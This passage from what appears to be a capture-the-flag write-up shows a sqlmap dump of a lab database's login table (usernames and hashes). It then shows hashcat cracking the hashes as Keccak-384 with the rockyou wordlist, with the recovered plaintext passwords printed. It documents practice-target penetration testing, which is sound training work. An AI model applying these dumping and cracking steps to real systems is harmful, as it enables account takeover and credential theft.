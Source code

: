     | 7    | cyork    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 8    | rmartin  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
    | 9    | zac      | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 10   | jorden   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 11   | alyx     | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
    | 12   | ilee     | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 13   | nbourne  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
    | 14   | zpowers  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 15   | aldom    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 16   | minatotw | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
    | 17   | egre55   | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
    +------+----------+--------------------------------------------------------------------------------------------------+

    [18:52:50] [INFO] table 'Hub_DB.dbo.Logins' dumped to CSV file '/root/.sqlmap/output/10.10.10.179/dump/Hub_DB/Logins.csv'
    [18:52:50] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.179' 



Now I've got usernames and password hashes.

### Crack Hashes

The `sqlmap` automated cracker didn't break any of the hashes, but it
uses a limited wordlist. Given the length of the hash, it looks like
SHA-384. When I ran `hashcat` with `-m 10800` for SHA-384 with
`rockyou.txt`, nothing broke. There's two other formats on the [Hashcat
example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
page - SHA3-384 (`-m 17500`) and Keccak-384 (`-m 17900`). When I ran
with the latter, I got results:



    root@kali# hashcat -m 17900 hashes /usr/share/wordlists/rockyou.txt --force
    hashcat (v5.1.0) starting...
    ...[snip]...
    9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
    68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
    fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
    Approaching final keyspace - workload adjusted.  
    ...[snip]...



